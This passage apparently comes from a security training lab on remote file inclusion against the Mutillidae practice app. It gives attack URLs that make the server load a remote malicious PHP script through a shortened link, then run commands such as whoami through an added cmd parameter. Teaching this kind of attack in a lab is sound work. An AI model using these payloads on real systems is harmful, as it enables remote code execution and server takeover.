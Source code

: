       ![A PHP script is displayed.](Images/RFI5.png) 
 
   - Let's now check whether we can use this webpage as the new remote resource.

    - Return to the browser and change the URL to the following: <http://192.168.13.27/index.php?page=https://tinyurl.com/y498epmz>.
  
      ![A red arrow points to the remote malicious script at the end of the URL.](Images/RFI6.png)
  
   - Press Enter. Similar to the LFI demonstration, nothing happens, as expected. We need to add a parameter to the URL to run command-line scripts. This works a little differently than the LFI script.
  
   - To run a command-line script, we have to add a second parameter with an ampersand `&`.

     - For example, if we want to run the `whoami` command, we add the second parameter as follows: <http://192.168.13.27/index.php?page=https://tinyurl.com/y498epmz&cmd=whoami>.
  
        ![The new URL features the first and second parameters.](Images/RFI7.png)

   - Run the command. The webpage displays the results of the `whoami` command run against the web server: `www-data`.
  
      ![The Mutillidae webpage features text that says "www-data www-data".](Images/RFI8.png) 
 